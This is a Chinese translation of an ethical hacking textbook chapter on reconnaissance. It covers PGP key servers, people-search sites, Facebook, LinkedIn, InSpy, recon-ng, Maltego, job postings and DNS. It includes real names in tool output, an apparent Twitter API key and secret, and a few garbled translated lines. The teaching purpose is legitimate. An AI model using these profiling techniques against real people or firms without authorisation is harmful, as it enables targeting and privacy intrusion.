Google 不是可以与 theHarvester 一起使用的唯一来源。另一个可用的、可能不被多加考虑的来源是 Pretty Good Privacy (PGP) 密钥服务器。PGP 依赖于公钥在公开可用的密钥服务器上可用。如果没有这些，任何想要从他人那里接收加密消息的人都必须手动共享公钥。由于这些密钥必须可用才能使用，因此它们存储在 Web 服务器上并可供搜索。由于它们与电子邮件地址关联，你可以在密钥服务器上搜索电子邮件地址。这可能并不总是成功。存在时间较长的人更有可能拥有 PGP 密钥。例如，你可以看到针对我自己的一个域运行 theHarvester 的结果。由于我的一些电子邮件地址已存在超过 20 年，而且我通常有在不保存加密密钥的情况下重建机器的习惯，因此我有几个 PGP 密钥。

有趣的是，theHarvester 未能找到我的任何 PGP 密钥。这引导我们去其他地方查找 PGP 密钥。较老的公开密钥服务器之一托管在麻省理工学院 (MIT)。如果你访问 https://pgp.mit.edu，可以提供搜索词，包括域名。使用 theHarvester 搜索未能找到 wiley.com 的任何条目。在 https://pgp.key-server.io 上执行相同搜索（MIT 的网站在此次搜索中无响应）得到了少量结果。但是，由于数据库中搜索的方式，wiley.com 这个词导致了一些名字为 Wiley 的人，而他们的电子邮件地址所在的域名以 .com 结尾。

使用 MIT 网站搜索我自己的密钥，我找到了多年来加载到密钥服务器上的所有密钥。如果需要，这是一种查找个人信息的方法，因为 theHarvester 要求你提供域名。就我而言，你可以看到图 4.3 中搜索的输出。我的主要电子邮件地址与三个不同的密钥关联。正如我所说，我有在不保存私钥的情况下重建或迁移到不同机器的习惯。这意味着，如果我想进行任何 PGP 加密电子邮件，我必须重新生成密钥并重新上传。由于密钥签名不同，它不会覆盖其他密钥。毕竟，我可能有几个合法密钥，分别用于不同系统。

### 图 4.3 PGP 密钥服务器搜索

| 类型 | 位数/密钥 ID | 日期 | 用户 ID |
|---|---|---|---|
| pub | 2048R/778C3732 | 2013-05-13 | Ric Messier <kilroy@WasHere.COM> |
| pub | 1024D/5D7D2485 | 2000-03-28 | Ric Messier <rmessier@bbnplanet.com> |
| pub | 1024D/A6CCD851 | 2000-01-16 | Ric Messier <kilroy@WasHere.COM> |
| pub | 1024D/C08CFE81 | 1998-10-09 | Ric Messier <cric@segNET.COM> |
| pub | 1024D/BAD133F1 | 1998-08-27 | Ric Messier <kilroy@WasHere.COM> |

虽然像 theHarvester 这样的工具对于自动识别公司中人员的信息很有帮助，但你可能想要或需要深入了解。这时你可能会考虑使用人物搜索网站，如 Pipl、Wink 或 Intelius。这些网站可用于搜索人员。像 Pipl 这样的网站可用于识别某人的在线存在。例如，使用我的姓名会找到几封邮件列表帖子，以及一个我不使用的 Twitter 帐户。还有其他一些与我无关的引用。你可以看到 Pipl 输出示例在图 4.4 中。

### 图 4.4 Pipl 输出

- **Ric Messier, kilroywuzh3r3**
  twitter.com/kilroywuzh3r3
  微博客 - Twitter

- **Ric Messier, route : firewall :: internal network :: // :DSL : ...**
  archivum.info/netfilter/2006/07/msg00017.html
  archivum.info

- **Ric Messier, Voir.ca: informer, stimuler et rapprocher les ...**
  voir.ca/blogs/ric_messier/archive/2009/11/10/...
  Obama et les extraterrestres - Eric Messier - Com - voir.ca

- **Ric Messier, Messier would go on the win the Calder Cup in 1997 with ...**
  en.wikipedia.org/wiki/Eric_Messier
  W Eric Messier - 维基百科，自由的百科全书 - en.wikipedia.org

- **Ric Messier, Re: [gentoo-user] dhcpcd and pdnsd together, Robert ...**
  archivum.info/gentoo-user@gentoo.org/2005-03/
  gentoo-user@gentoo.org (日期) - archivum.info


还有其他更专注于查看社交网络存在状态的人员搜索网站，搜索可以使用用户名进行。网站 PeekYou 会使用真实姓名进行人员搜索，就像我们对 Pipl 所做的那样。不过，PeekYou 也允许你查找用户名。这个用户名可能出现在多个社交网络网站上，以及其他用户名暴露给外部世界的位置。搜索我过去使用过的一个用户名，找到了一些结果，不过信息严重过时且不一致。不过，在线存在状态不仅仅可用于寻找人。

## Social Networking

社交网络站点是人们建立联系的方式。它们有多种不同的形式，已存在超过二十年，最早的是 1997 年推出的 sixdegrees.com。像 MySpace 这样的站点允许用户与他人分享音乐和个人信息。Facebook 允许用户创建社区、分享新闻和信息，并与失去联系的人重新取得联系。Twitter 通常用于新闻和更新，以及营销信息——例如发布公告。LinkedIn 对各种商业目的都很有用。这包括分享公司活动、个人成就和职位变动等更新。

你可以在这些网站上花大量时间手动查找信息。也有可用的工具。其中一个就是我们之前已经查看过的工具。除了使用 Google 和 Bing 等传统搜索网站，theHarvester 还会搜索一些社交网络站点。也有针对某些站点的特定工具，例如 LinkedIn。最后，我们有像 Maltego 这样的工具，它对于开源情报（OSINT）来说很有用，尽管也有方法可以用它来搜索社交网络站点，以获取关于人和公司的详细信息。

## Facebook

虽然主要被视为个人站点的网站可能更侧重于个人，但它们对于从事道德黑客工作的人来说仍然很有用。像 Facebook 这样的网站很有趣，因为人们似乎在那里放松警惕，发布了许多或许不应该发布的细节。他们常常没有意识到的是，他们发布的内容有多少是可搜索的。随着时间的推移，Facebook 大大改进了可获取的信息量，尽管仍然不够理想。几年前，有一个网站 www.weknowwhatyouredoing.com，它会搜索 Facebook 帖子，这些帖子分为四个类别——谁想被解雇，谁宿醉了，谁在吸毒，以及谁有新电话号码。图 4.5 显示了该网站被移除前的一些帖子，因为它使用的应用程序编程接口（API）不再可用。

### FIGURE 4.5 www.weknowwhatyouredoing.com

### 图 4.5 www.weknowwhatyouredoing.com

### Who's hungover?

### 谁宿醉了？

### Who's taking drugs?

### 谁在吸毒？

Edrine K. 吸大麻挺健康的！！是不是？？大约 37 分钟前，2 人喜欢，来自 Mobile 发布，举报

James J. 她喜欢我们在一起抽一点大麻然后她就把事情搞定。:) 大约 38 分钟前，无人喜欢，来自 Facebook for iPhone 发布，举报

Tutu M. 不要酒后驾车，吸大麻后飞行 大约 41 分钟前，1 人喜欢，来自 web 发布，举报

Thira K. 我想要……生活方式…… 大约 44 分钟前，无人喜欢，来自 Share_bookmarket 发布，举报

Stanley Thuku M. 即使魔鬼吸大麻，他也永远不会飞得最高 大约 44 分钟前，1 人喜欢，来自 Mobile 发布，举报

这并不是说 Facebook 不再有 API。Facebook Graph API 依然存在。它只是不像以前那么开放了。仍然有 Graph API，并且可以在应用程序中使用。事实上，Facebook 提供了一个 Graph API Explorer，用于测试对 API 的查询。图 4.6 显示了 Graph API Explorer。在顶部附近，你可以看到有一个访问令牌。这个令牌是在选择若干权限后生成的。该令牌基于你登录的用户。一旦你有了令牌，就可以生成一个查询。显示的查询是默认查询，请求用户的 ID 和姓名。当然，姓名是我的，因为访问令牌是基于我的登录生成的。

### FIGURE 4.6 Facebook Graph API

### 图 4.6 Facebook Graph API



不过，生成搜索不需要创建应用程序。搜索可以手动完成。Facebook 不仅由个人使用，公司也常常使用。许多公司会创建自己的页面，在上面发布关于其产品和服务的具体信息。这是收集公司信息的另一个位置。图 4.7 显示了 John Wiley & Sons 在其 Facebook 页面上的业务详细信息。除了可见的位置信息外，还有其他几类信息，例如评论、帖子和社区。评论有时可以提供启发性的信息，当然还有提供的联系信息。

### FIGURE 4.7 John Wiley & Sons information

### 图 4.7 John Wiley & Sons 信息



不过，你不必仅仅依赖于在 Facebook 上查找商业信息。人们经常在个人页面上发布关于雇主的详细信息。不幸的是，这正是在 Facebook 上搜索可能变得具有挑战性的地方。毕竟，你不能仅仅使用常规搜索来搜索特定公司的所有员工。但是，如果你通过其他方式找到了一些员工姓名，可以使用这些姓名来查找他们的页面并阅读他们的状态帖子。通常，人们会将工作情况的详细信息（他们为哪些公司工作以及曾为哪些公司工作）作为个人资料的一部分。这可以帮助你更好地区分员工和其他同名人士。

这很大程度上依赖于人们正确设置隐私选项。但这并不总是做到的，这意味着你很可能可以阅读许多你所寻找的人的帖子。你也很可能查看他们的照片。在社交媒体时代，人们普遍期望可以了解想要了解的关于某人的几乎任何信息，人们常常不考虑谁可能会看到他们的帖子和照片。这给了我们优势。然而，你并不总是能看到某人在做什么和说什么。图 4.8 显示了 Facebook 用户可用的不同隐私设置。不过，这里的一个挑战是，这仅涉及你自己的行为。这不会阻止其他人在有人分享你的帖子或照片时看到它们。然后问题就在于他们的权限设置是什么。

### FIGURE 4.8 Facebook permissions settings

### 图 4.8 Facebook 权限设置

| 您的活动 | 谁可以看到您未来的帖子？ | 好友 | 编辑 |
|---|---|---|---|
| 您的活动 | 审核您的所有帖子以及有人标记您的内容 | | 使用活动日志 |
| 您的活动 | 限制您与朋友的朋友或公众共享的帖子的受众？ | | 限制过去的帖子 |
| 其他人如何查找并联系您 | 谁可以向您发送好友请求？ | 每个人 | 编辑 |
| 其他人如何查找并联系您 | 谁可以看到您的好友列表？ | 好友 | 编辑 |
| 其他人如何查找并联系您 | 谁可以使用您提供的电子邮件地址查找您？ | 好友 | 编辑 |
| 其他人如何查找并联系您 | 谁可以使用您提供的电话号码查找您？ | 每个人 | 编辑 |
| 其他人如何查找并联系您 | 您是否希望 Facebook 以外的搜索引擎链接到您的个人资料？ | 否 | 编辑 |

有时，人们会发布关于工作的状态，包括他们那天可能做了什么，或者他们可能会在另一个工作地点签到。这些信息中任何一项都可能对你有用。然而，像 Facebook 这样的网站并不总是获取企业及其员工信息的最佳场所。还有其他社交网络站点对你来说可能更有效率。

## LinkedIn

在撰写本文时，LinkedIn 已存在大约十五年。尽管有许多竞争对手（例如 Plaxo）已经倒闭或不再在这个领域，LinkedIn 仍然存在。它继续扩展其服务，超越了最初基本只是联系人管理器的早期时代。如今，LinkedIn 是一个商业社交机会，对销售人员非常有用。它也是一个极好的来源


用于识别您可能感兴趣的工作。看来人力资源人员，特别是招聘人员，通常使用 LinkedIn 来寻找人员以填补职位，无论是内部招聘人员还是为招聘公司工作的人。

由于 LinkedIn 收集的商业信息量很大，我们可以将其作为猎头平台来利用。尤其是针对付费会员，LinkedIn 会对使用它的企业以及网站上的人员进行大量分析。如果您正在寻找关于某个目标的信息，LinkedIn 提供大量细节。以 Figure 4.9 为例，它显示了通过网站 Jobs 部分发布的某个空缺职位的申请者统计数据。我们可以看到，该职位吸引了受过教育的申请人。您可以通过查看多个职位的这些统计数据，开始了解劳动力的情况。

### FIGURE 4.9 LinkedIn 职位统计

| 类别 | 详情 |
| :--- | :--- |
| 资历级别 | 98 名总监级别申请人<br>76 名高级别申请人<br>38 名经理级别申请人<br>37 名副总裁级别申请人 |
| 教育程度 | 50% 拥有学士学位<br>31% 拥有工商管理硕士学位<br>11% 拥有硕士学位<br>8% 拥有其他学位 |
| 地点 | 大丹佛地区：182 名申请人<br>大纽约市地区：6–10 名申请人<br>美国其他地区：6–10 名申请人 |



职位列表是除了申请者和整体劳动力统计数据之外，寻找详细信息的另一个地方。我们可以从这些列表中看到组织内可能存在的技术。网络安全工程师职位的列表中有可以在 Figure 4.10 中看到的要求。虽然其中一些要求是通用的，但也有一些对网络中使用的技术非常具体。例如，该公司似乎可能正在使用 CheckPoint 和 Palo Alto Networks 防火墙。此外，其网络中还有 Cisco 路由器和交换机。这是一个立足点。我们现在可以 starts you can get。

### 员工搜索的 InSpy 结果

```
$ ins --empspy title-list-small.txt Wiley

InSpy 2.0.3

2018-07-02 16:00:52 59 Employees identified
2018-07-02 16:00:52 Felix R Cabral Sr. Avaya Voice Engineer – Voice Infrastructure
2018-07-02 16:00:52 Uta Goebel Deputy Editor at Wiley VCH
2018-07-02 16:00:52 Janice Cruz (L.I.O.N.) Quality Assurance Analyst at Wiley
Education Solut
2018-07-02 16:00:52 Coral Nuñez Puras Financial Planning and Analyst in Wiley
2018-07-02 16:00:52 Jamie Wielgus Editor at John Wiley and Sons
2018-07-02 16:00:52 Stacy Gerhardt Engineer in Training at Wiley|Wilson
2018-07-02 16:00:52 Martin Graf-Utzmann Editor at Wiley VCH
2018-07-02 16:00:52 James Smith, EIT Mechanical Engineer at Wiley|Wilson
2018-07-02 16:00:52 Mohammad Karazoun Software Test Engineer (Product Analyst)
at John W
2018-07-02 16:00:52 Robert Vocile Strategic Market Analyst at Wiley
2018-07-02 16:00:52 Misha Davidof Senior Business Analyst Consultant at Wiley
2018-07-02 16:00:52 Aleksandr Lukashevich Automation Testing Engineer at John
Wiley and Sons
2018-07-02 16:00:52 Ekaterina Perets, Ph.D. Assistant editor at Wiley
2018-07-02 16:00:52 Guangchen Xu Editor @ Wiley
2018-07-02 16:00:52 Ralf Henkel Editor in Chief at Wiley-Blackwell
2018-07-02 16:00:52 sonal jain Wiley India
2018-07-02 16:00:52 Abhinay Kanneti QA Automation Engineer at Wiley Publishing
2018-07-02 16:00:52 Olga Roginkin, PMP Business Analyst at John Wiley and Sons
2018-07-02 16:00:52 Razi Gharaybeh Senior Quality Assurance Engineer at John
Wiley an
2018-07-02 16:00:52 Daniel Bleyer Senior SCCM Systems Engineer at Wiley
2018-07-02 16:00:52 John Coughlan Senior Project Engineer at Wiley
2018-07-02 16:00:52 Stephanie Hill Production Editor at Wiley
2018-07-02 16:00:52 Jörn Ritterbusch Editor-in-Chief bei Wiley-VCH
2018-07-02 16:00:52 Alden Farrar Assistant Editor at Wiley
2018-07-02 16:00:52 Gilat Mandelbaum Strategy Analyst Intern at Wiley
2018-07-02 16:00:52 Chelsea Meade Pricing Analyst at Wiley
2018-07-02 16:00:52 Babak Mostaghaci Associate Editor at Wiley-VCH
2018-07-02 16:00:52 Vibhushita Misra Testing Analyst/Testing Team Lead at Wiley
2018-07-02 16:00:52 Mohammed Mnayyes Quality Engineer at John Wiley and Sons
2018-07-02 16:00:52 David Kim Associate Editor | Society Journals | Wiley
2018-07-02 16:00:52 Lauren Ellis Project Engineer at Wiley
2018-07-02 16:00:52 Amit Wawdhane Data Analyst at Wiley | Masters in Information Sys
```

InSpy 不是我们可以用来在 LinkedIn 上进行自动搜索的唯一实用程序。我们也可以使用 theHarvester，就像之前所做的那样。我们不再搜索 Google 或 Bing 等网站，而是可以指定 LinkedIn 作为要搜索的数据来源。幸运的是，theHarvester 可以做到这一点而不需要 API 密钥。许多网站将需要 API 密钥来


以编程方式访问。它维持了一定程度的问责制，并防止服务被过度使用或滥用。

## Twitter

另一个常见的社交网站或服务是 Twitter。Twitter 上发布了大量可能有用的内容。同样，以编程方式访问 Twitter 也很有用。您可以使用常规界面进行搜索，但有时能够使用其他工具会很有帮助。为了以编程方式访问 Twitter，您需要获取 API 密钥。这意味着您需要告诉 Twitter 您正在创建一个应用程序。您可以轻松地通过 Twitter 开发者网站告诉 Twitter 您正在创建应用程序，无需任何特殊凭据。在创建应用程序的过程中，您实际上是在创建应用与 Twitter 服务进行交互所需的标识信息。在图 4.11 中，您可以查看应用的密钥和访问令牌。



您可能注意到，图 4.11 中的应用名为 recon-ng-me。这样做的原因是，我创建该应用只是为了获取密钥和令牌，以便将其添加到 recon-ng 中，这是一款用于侦察并包含许多插件的工具。其中一些插件需要 API 密钥或访问令牌，才能与正在查询的服务进行交互。Twitter 插件就是这种情况。在以下代码中，您可以看到 recon-ng 使用的 API 密钥列表以及为 Twitter 设置的 API 密钥。

## recon-ng 密钥

| 名称 | 值 |
| --- | --- |
| bing_api | |
| builtwith_api | |
| censysio_id | |
| censysio_secret | |
| flickr_api | |
| fullcontact_api | |
| github_api | |
| google_api | |
| google_cse | |
| hashes_api | |
| ipinfodb_api | |
| jigsaw_api | |
| jigsaw_password | |
| jigsaw_username | |
| pwnedlist_api | |
| pwnedlist_iv | |
| pwnedlist_secret | |
| shodan_api | |
| twitter_api | 0DE6bQv89M2AApxCvzfx7AIpd |
| twitter_secret | jxhcaFu9FS8AK9g4m6N90RhkuCQ0P6A5ppgSdckOIf3zhD3cMK |

现在我们已经为 Twitter 配置好了 API 密钥，可以运行该模块了。要运行模块，我们需要“使用”它，即使用 use 命令加载模块。加载后，我们需要设置一个源。在我们的情况中，源是一个文本字符串，因此用引号括起来，告诉 recon-ng 我们将文本字符串用作源。此处期望的文本字符串是用户句柄。单词 _recon_ 是相当随机选定的，并且得到了结果。完成这些后，我们只需运行模块。您可以在以下代码中查看加载模块、设置源以及运行它的过程。模块的结果被截断了，因为结果相当多，这只是为了向您展示如何使用该模块。

## 在 recon-ng 中使用 Twitter 模块

```
[recon-ng][default] > use recon/profiles-profiles/twitter_mentions
[recon-ng][default][twitter_mentions] > show options
```

| 名称 | 当前值 | 必需 | 描述 |
| --- | --- | --- | --- |
| LIMIT | True | 是 | 切换速率限制 |
| SOURCE | default | 是 | 输入源（有关详细信息，请参阅'show info'） |

```
[recon-ng][default][twitter_mentions] > set SOURCE 'recon'
SOURCE => 'recon'
[recon-ng][default][twitter_mentions] > run

----
'RECON'
----
[*] [profile] MattyVsTheWorld - Twitter (https://twitter.com/MattyVsTheWorld)
[*] [profile] upthevilla76 - Twitter (https://twitter.com/upthevilla76)
[*] [profile] davidsummers64 - Twitter (https://twitter.com/davidsummers64)
[*] [profile] nastypig99 - Twitter (https://twitter.com/nastypig99)
[*] [profile] rothschildmd - Twitter (https://twitter.com/rothschildmd)
[*] [profile] CamillaPayne7 - Twitter (https://twitter.com/CamillaPayne7)
[*] [profile] Matt5cott - Twitter (https://twitter.com/Matt5cott)
[*] [profile] AVFCOfficial - Twitter (https://twitter.com/AVFCOfficial)
[*] [profile] CamillaPayne7 - Twitter (https://twitter.com/CamillaPayne7)
[*] [profile] Matt5cott - Twitter (https://twitter.com/Matt5cott)
[*] [profile] AVFCOfficial - Twitter (https://twitter.com/AVFCOfficial)
[*] [profile] yorkshireAVFC - Twitter (https://twitter.com/yorkshireAVFC)
```

由于我们正在运行 twitter-mentions 模块，因此正在使用文本字符串在 Twitter 上搜索提及。我们得到的是由给定句柄提及的用户的个人资料。您可以使用 twitter_mentioned 模块获取这些结果的反向结果，该模块返回提及给定句柄的个人资料。最后，我们可以使用 locations-pushpin/twitter 模块查找在特定地理区域内发生的推文。我们可以使用此模块指定要搜索的半径（以千米为单位）。

还有一种工具总体上对侦察很有用，但由于它具有 Twitter 功能，我们将在此介绍它。Maltego 通过从已收集的数据创建图形来采用可视化方法。识别实体关系（例如数据片段之间的父子关系）会很有用。Maltego 使用转换（transforms）从一条信息跳转到另一条信息。一组转换称为机器（machine），是一个很好的起点。图 4.12 显示了 Twitter Digger X 的部分输出，它分析提供的用户名的推文。如您所见，您会得到一个结构像树一样的图形。这是因为收集的每条数据都可能产生另一条数据，而后者将是子节点。



Maltego 是收集侦察数据的一个好工具，尤其是当您需要其可视化表示时。虽然有几种其他工具可以收集与 Maltego 相同的数据，但 Maltego 确实具有优势，即只需在图上选择一个节点并对其运行转换，即可快速收集其他数据并跳转到另一个数据收集工具。例如，您可以从主机名开始，只需运行一个转换即可从中收集 IP 地址。

除了 Twitter Digger X 之外，还有其他 Twitter 机器和转换。例如，您还可以监控 Twitter 上标签的使用。除了所有其他功能之外，这将提供大量功能，以便在 Maltego 内部搜索 Twitter。

### 活动

获取 Maltego Community Edition 的副本（Kali Linux 中预安装）。使用 Maltego 利用可用的机器和转换，尽可能查找关于您自己的信息。

## 求职网站

之前我们曾将 LinkedIn 作为信息来源进行查看。我们能够从 LinkedIn 收集的信息领域之一是职位描述，从而了解某些组织正在使用哪些技术。例如，图 4.13 显示了一个空缺职位的一些资格要求。这是一份高级 DevOps 工程师的职位，该招聘信息发布在 indeed.com 上。虽然这些技术是作为示例列出的，但您确实有一些起点。您知道该公司正在使用关系数据库。这也许并不奇怪，因为许多公司都在使用它们。不过，这确实告诉您，它们并未使用 NoSQL（包括 MongoDB 和 Redis 等）。您还知道它们正在使用 Amazon Web Services。由于他们正在寻找该方面认证人员，这一点可以肯定。

图 4.13 带有技术要求的职位招聘信息

- 首选资格
- Amazon AWS 认证 DevOps 工程师 - 专业认证
- 在生产环境中使用 Chef、Puppet、Salt 或 Ansible 的经验
- 强大的脚本技能，例如 Powershell、Python、Bash、Ruby 等
- 应用程序容器化和编排框架的经验，例如 Docker、AWS ECS、Kubernetes
- 熟悉关系数据库技术 - Oracle、Postgre、MySQL、Aurora
- 管理持续代码集成服务和工具，例如 Jenkins、Bamboo、TeamCity 和 AWS Code Tools
- 自动化测试工具的经验，例如 Selenium 和 JMeter
- 理解面向服务架构和 REST API
- 构建企业云安全策略的经验
- 领导或参与云工作负载的认证或认可的经验，以满足行业或监管标准，例如 PCI DSS、ISO 27001、HIPAA 和 NIST/DOD 框架。

如果您想尝试通过 Web 应用程序进行某些操作，您知道它们正在为该应用程序使用 RESTful 接口。这不算多，但却是一个起点。当您查看招聘信息时，您会开始以寻找潜在目标的眼光来阅读它们。阅读一段时间后，您会开始掌握这些招聘信息中的一些用语。例如，该招聘信息在多行中使用了 like 这个词。虽然您无法完整了解所使用的内容，但您当然可以排除一些事物，就像我们之前所做的那样。

有许多地方可以查找招聘信息。过去，我们使用报纸，您必须获得目标地区的报纸（或者打听到您试图研究的公司的相关信息），而现在，招聘信息在网上无处不在。您可能会使用的一些大型网站有 Monster、Indeed、Glassdoor、CareerBuilder 和 Dice。您也应该考虑公司本身。虽然许多公司使用招聘网站，但有些公司可能会在其自己的网站上发布招聘信息，这些信息可能在其他地方无法找到。您还可以查看 USAJobs 和 ClearanceJobs 等专业网站。

这些招聘信息中的任何一条都可能让您不仅了解技术，还能了解组织结构。如前所述，不要只关注技术类招聘信息。您可以使用其他非技术类招聘信息来收集有关公司的更多信息。

## 域名系统

虽然您可以远程收集大量信息，但到某个时刻，您需要深入研究。这仍然不意味着您将完全进入主动模式，但您将开始收集有关我们所面对范围的详细信息。当您与目标系统以及其他任何系统进行交互时，您需要与 IP 地址进行通信。然而，人类不擅长记住数字字符串。相反，我们使用主机名，但


这意味着我们需要某种东西，可以为我们将这些主机名翻译成 IP 地址。
DNS 就派上用场了。

DNS 是一个分层系统，其分层有几种方式。首先是我们使用的主机名。
我可以用一个例子来帮助演示。www.labs.domain.com 是一个主机名
因为它指向特定的主机或系统。最好从右到左读取主机名，
左边，因为 DNS 在将主机名解析为 IP 地址时就是按这种方式读取的。
IP 地址。起初有顶级域名（TLDs），它们是 .com、
.org、.edu，以及所有不同国家的顶级域名（.uk、.au、.ca、.sk、.us 等。
等等）。后来又添加了许多，但它们仍然都是 TLD。之所以认为它们是
顶级域名，是因为你可以将 DNS 视作一棵树来绘制。所有的 TLD 都位于树顶，
然后所有其他内容都从这些 TLD 生长出来。

二级域名是我们开始添加组织的地方。TLD 从广义上讲属于整个互联网，
也就是说。它们有管理它们的组织，但它们并不“属于”任何单一组织，至少不是
以二级域名所能表达的那种方式属于某个组织。在我们的示例中，二级域名是 domain。
当人们提到域名时，通常指的是二级域名连同顶级域名，即在我们的示例中为 domain.com。

二级域名之下是子域名。每个域名可以拥有它们愿意管理的任意多级子域名。
在我们的示例中有一个子域名。该子域名是 labs，属于域名 domain.com。
当我们将 www（即主机名）添加到子域名、二级域名和顶级域名中时，
就得到了所谓的完全限定域名（FQDN）。之所以称为完全限定，是因为
清晰明确主机名属于哪个域（例如，主机名 www 存在于无数个域中），
同时也清楚我们在谈论域中的哪个主机名。

> 你可能认识这三个字母 www 代表万维网（World Wide Web），在这里也是这个意思。
> 当这些字母意指万维网时，它们会大写——WWW。当你看到 www 时，它将指代一个主机名，
> 而不是整个万维网。

现在你已经对 DNS 中使用的命名结构以及 DNS 的用途有了基本了解，我们可以开始探讨如何使用 DNS 来收集关于目标的信息。首先，我们将从名称查找开始。这包括名称查找的实际工作原理，然后我们将介绍可用于执行名称查找的一些工具。之后，我们将探讨区域传输，它本质上是批量名称查找。

## 名称查找

当你访问网站时，会输入一种称为统一资源定位符（URL）的内容。URL 通常由两部分组成。第一部分是统一资源标识符（URI）。这是所使用的协议（例如，http:// 或 ftp://）。URI 之后是 FQDN。你的浏览器会向操作系统发出请求，以打开到 URI 指示端口的 FQDN 的连接。然而，在连接打开之前，系统需要一个 IP 地址放入第 3 层报头中。因此，它会发出名称解析请求。每台计算机都会配置至少一个名称解析器。名称解析器是你的计算机用来完成名称解析的系统。

此描述假设你的计算机以前从未访问过该网站。你的系统通常会缓存解析后的地址，因此无需再次生成网络流量来询问。同样，你的系统询问的解析器也通常会缓存结果，因此无需不断询问其权威服务器。我们还假设没有其他使用相同解析器的系统请求过该信息，从而产生一个全新的请求。

名称解析器是一个 DNS 服务器。它接收 DNS 请求，并根据所问内容进行解析。通常，你配置的名称解析器被称为缓存名称服务器。这意味着它从终端接收请求，对其进行解析，并缓存结果以提高效率。这与所谓的权威服务器不同，后者保存特定域的记录。我们稍后将介绍权威服务器。因此，第一个 DNS 请求是你的系统向缓存服务器发出的请求，无论它位于何处。图 4.14 展示了完整 DNS 名称解析的基本流程，你可以参考。

### 图 4.14 DNS 名称解析



我们从标记为 A 的请求开始。该请求发送到名为 Caching DNS 的名称解析器。缓存 DNS 服务器检查其缓存，发现没有存储 IP 地址，因此开始进行所谓的递归名称查询或递归名称解析。之所以称为递归，是因为它最终会产生多个请求，这些请求不断缩小范围，直到我们得到想要的结果。缓存服务器需要先从顶级域名（TLD）开始。它会有一个提示文件，指示根名称服务器的 IP 地址。在我们的示例中，缓存服务器需要确定用于 .com 顶级域名的服务器。一旦确定了需要向其发送请求的服务器，请求 B 就会发出，向根服务器询问 domain.com 域的名称服务器的 IP 地址。

根服务器拥有其负责的顶级域名下所有域名的名称服务器详细信息。根服务器会用 domain.com 域的名称服务器 IP 地址回复我们的缓存服务器。当我们之前进行 whois 查询时，域 whois 查询的最后会列出该域的名称服务器，因为名称服务器是与域一起存储的。不过，这就是为什么我们正在做的事情被称为递归查询。我们不能直接询问根服务器主机名的 IP 地址，因此必须要求它提供下一个应该询问对象的指针。

